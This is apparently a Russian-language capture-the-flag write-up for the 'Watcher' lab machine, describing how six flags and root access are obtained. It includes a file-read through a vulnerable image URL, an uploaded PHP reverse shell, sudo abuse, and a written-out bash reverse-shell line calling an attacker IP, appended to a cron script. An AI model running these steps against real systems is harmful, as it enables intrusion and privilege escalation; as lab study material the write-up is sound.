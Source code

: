 # Watcher WriteUp (Medium)✅

Перейдя по ip адресу, мы видим страницу с подставками (?) для посуды

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Проверив файл **robots.txt**, мы обнаруживаем 2 файла

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

В файле **flag\_1.txt** находится первый флаг🚩

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Во втором файле находится записка, но мы не можем прочитать её содержимое, просто перейдя в него с помощью адресной строки

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Нажав на картинку на основной странице, в адресной строке появляется html-запрос, используя его, прочитаем содержимое файла **secret\_file\_do\_not\_read.txt**

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

В данной записке находится логин и пароль для подключения по протоколу ftp&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Используя логин и пароль из записки, подключаемся к машине и скачиваем файл **flag\_2.txt**

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

Выводим содержимое данного файла и получаем второй флаг🚩

<figure><img src="../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Далее нам понадобится **php\_reverse\_shell**. Используя **ftp** соединение, загружаем шелл в директорию **/files**, а затем, подключив слушатель, создаем **html-запрос**, в котором обращаемся к файлу с шеллом, указав полный путь до него&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>Отправить данный запрос нужно после поключения слушателя</p></figcaption></figure>

Перейдя в каталог **/var/www/html** мы можем найти папку **more\_secrets\_a9f10a**

<figure><img src="../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

В ней и находится текстовый файл с третьим флагом🚩

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Четвертый флаг находится в директории toby, но от лица www-data у нас нет прав, чтобы его узнать

<figure><img src="../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

С помощью команды `sudo -l` мы выяснили, что от лица пользователя **toby** мы можем вывести содержимое файла, поэтому, используя команду `sudo -u toby /bin/bash` меняем пользователя на **toby** и выводим четвертый флаг🚩

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Записка **note.txt** намекает нам, что в папке **jobs** находится скрипт, который выполняется в определенный период времени (с помощью инструмента **cron**)

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Добавив в него строку с **bash\_reverse\_shell'ом** с помощью команды `echo 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1''' >>` [`cow.sh`](https://vk.com/away.php?to=http%3A%2F%2Fcow.sh\&cc\_key=) и подключив слушатель, получаем оболочку уже от лица пользователя **mat**, в директории которого находится пятый флаг🚩

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Проверив, что написано в записке, которая находится в той же директории, мы узнаем, что можем запустить некий **python-скрипт** от лица пользователя **will** без пароля&#x20;

<figure><img src="../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

Этот скрипт берет некоторые данные из второго python-скрипта **cmd.py**

Содержимое файла **will\_script.py** мы изменить не можем, однако, [стабилизировав оболочку](https://github.com/ZHIRspb/Cheatsheet/blob/main/some-cheatsheets/shell-stabilisation.md), с помощью команды `nano cmd.py` мы имеем право добавить в данный скрипт очередной пейлоад, чтобы получить оболочку от лица пользователя **will**&#x20;

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Заранее подключив слушатель, запускаем **will\_script.py** используя команду:

`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1` ("1" нам нужна, потому что что скрипт cmd.py принимает значение 1-3 для правильной работы)&#x20;

И получаем шелл от лица пользователя will, а вместе с ним и шестой флаг 🚩

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Проверив каталог **/opt**, мы можем заметить интересную вкладку **backups**, в которой находится файл **key.b64**

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Само расширение даёт нам понять, что данный ключ закодирован с помощью **base64** кодирования

Вставляем содержимое данного файла в **base64** декодер и получаем  **RSA-ключ** для подключения по протоколу **ssh**

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Далее создаем файл, в который записываем этот ключ, выдаем ему права с помощью команды `chmod 600 file_name` (600 - чтение и запись)

&#x20;

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

&#x20;Подключаемся по протоколу **ssh** от имени пользователя **root** используя команду&#x20;

`ssh -i file_name root@machine_ip`

И, наконец, получаем последний флаг🚩

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

